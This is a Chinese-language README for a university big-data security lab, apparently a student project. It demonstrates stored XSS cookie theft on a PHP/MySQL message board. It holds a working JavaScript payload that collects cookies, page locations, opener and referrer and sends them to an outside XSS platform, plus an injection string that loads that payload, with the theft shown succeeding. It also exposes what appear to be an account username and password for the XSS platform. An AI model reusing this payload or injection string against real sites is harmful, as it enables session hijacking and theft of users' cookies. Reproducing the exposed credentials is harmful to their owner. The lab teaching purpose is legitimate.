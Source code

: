 # 大数据安全实验三提高部分

BUPT-SCSS第三次大数据安全实验演示demo，包含XSS和在线追踪两个部分。

## 新的Cookie窃取方法

### 简述

小组经过调研，对XSS攻击技术进行了探究，并制作Demo进行演示。

本Demo是使用php-mysql架构搭建的典型的Web留言板应用，留言板具有注册、登录、对指定用户留言、查看其他用户给自己的留言等功能。如果后端对用户输入的留言内容过滤不严，就容易出现XSS漏洞。

<img src="./pics/Screen Shot 2020-11-11 at 11.36.45.png" style="zoom:50%;" />

XSS的payload代码放置在公网XSS平台上，代码具有窃取Headers、Cookies等功能。

```javascript
(function(){(new Image()).src='https://xsshs.cn/xss.php?do=api&id=pou2&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();
if('1'==1){keep=new Image();keep.src='https://xsshs.cn/xss.php?do=keepsession&id=pou2&url='+escape(document.location)+'&cookie='+escape(document.cookie)};
var x=new Image();
try
{
var myopener='';
myopener=window.opener && window.opener.location ? window.opener.location : '';
}
catch(err)
{
}
x.src='{$xssite}/?do=api&act=r&id={$pid}&diy[location]='+escape(document.location)+'&diy[toplocation]='+escape(top.document.location)+'&diy[cookie]='+escape

(document.cookie)+'&diy[opener]='+escape(myopener)+'&diy[referrer]='+escape(document.referrer)+'&diy[title]='+escape(document.title);
```

使用只需插入如下语句

```
</textarea>'"><script src=//xs.sb/pou2></script>
```

### XSS基本原理概述

> 这里懒得写了  凑字数  加油
>
> 可以如此安排内容：
>
> XSS基本原理
>
> XSS的分类（反射型、存储型、DOM型），本实验用到了存储型XSS攻击方式
>
> XSS攻击的流程（反射型一般是诱导受害者点击URL，存储型和DOM型会在用户站点长期存在，访问即受害）
>
> XSS攻击的防御（前端过滤、后端编码、服务器端设置CSP）（针对Cookie的窃取，使用HttpOnly防护）

### 环境配置

docker与镜像版本

```
# docker --version
Docker version 19.03.13, build 4484c46d9d
# mysql --version
mysql  Ver 14.14 Distrib 5.7.32, for Linux (x86_64) using  EditLine wrapper
```





### 演示——准备工作

提前在留言板注册了用户c1、`c2`，可看到他们之间的留言正常显示

<img src="./pics/Screen Shot 2020-11-11 at 11.52.37.png" alt="Screen Shot 2020-11-11 at 11.52.37" style="zoom:50%;" />

![Screen Shot 2020-11-11 at 11.54.19](./pics/Screen Shot 2020-11-11 at 11.54.19.png)

查看浏览器Cookie，可以看到PHP的session，以及我们提前设置的Cookie。这个Cookie是没有HttpOnly保护的。

![Screen Shot 2020-11-11 at 11.54.56](/Users/raidriarb/Library/Application Support/typora-user-images/Screen Shot 2020-11-11 at 11.54.56.png)

在XSS在线平台`https://xs.sb`注册一个账号，建立XSS项目设置我们需要执行的payload，并保存平台生成的链接。

> 用户名：Arklight
>
> 密码：1085455474
>
> 到时候记得自己注册一个

![Screen Shot 2020-11-11 at 11.58.15](./pics/Screen Shot 2020-11-11 at 11.58.15.png)

接下来c2向c1发送了这样一条信息`</textarea>'"><script src=//xs.sb/pou2></script>`

<img src="./pics/Screen Shot 2020-11-11 at 12.09.36.png" alt="Screen Shot 2020-11-11 at 12.09.36" style="zoom:50%;" />

进入c1的登录界面，同时使用控制台Network监视流量，可以看到XSS Payload被加载、Cookie以HTTP-GET方式外带的过程。

![](./pics/Screen Shot 2020-11-11 at 12.12.10.png)

![](./pics/Screen Shot 2020-11-11 at 12.12.57.png)

检查我们的XSS平台，确实获得了用户Cookie。

![](./pics/Screen Shot 2020-11-11 at 12.14.16.png)

## 在线追踪实验

使用CanvasFP/WebGLFP/AudioFP进行实验